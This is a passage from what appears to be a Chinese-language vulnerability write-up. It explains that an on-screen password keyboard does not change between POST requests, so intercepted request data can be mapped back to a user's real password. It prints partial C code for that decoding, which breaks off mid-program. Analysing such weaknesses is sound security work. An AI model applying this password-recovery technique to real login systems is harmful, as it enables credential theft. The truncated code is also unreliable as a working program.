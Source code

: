 那么如何利用这个漏洞呢？

在初步分析阶段，我们发现每次做出POST请求时没有刷新页面，也没有更换屏幕键盘。我们又可以做出以下两种猜想：  

**捕捉到输入密码时的屏幕键盘图片**  

可以直接使用抓包抓到的数据与其一一对应推测出用户的真实密码。具体分析见第3步初步分析。

*让我们用代码来实现它，源码如下：*

    #include<stdlib.h>
    #include<stdio.h>
    int main()
    {
    	int i,j,input,middle;
    	long long keyboard;
    	int count = 0;
    	char Char2Int[2];
    	char Input[10];
    	char Output[10];
    	char Middle[10];
    	char Keyboard[20];
    	printf("Please input the encryption password:");
    scanf("%d", &input);
    	sprintf(Input, "%d", input);
    
    	printf("Please input the keyboard number:");
    	scanf("%lld", &keyboard);
    	sprintf(Keyboard, "%lld", keyboard);
    
    	printf("\nYour Input:"); 
    	printf("\nEncryption password:");
    	for (i = 0;i < 10;i++)
    	{
    		if(Input[i]<= '9' && Input[i]>= '0')
    		{
    			count++;
    			printf("%c", Input[i]);
    		}
    		
    	}
    	printf("\npassword:");
    	j = count;
    	for (i = 0;i < count;i++)
    	{
    		Middle[j] = Input[i];
    		j--;
    	}
    	for (i = 0;i < 10;i++)
    	{
    		if (Middle[i] <= '9' && Middle[i] >= '0')
    		{
    			printf("%c", Middle[i]);
    		}
    	}
    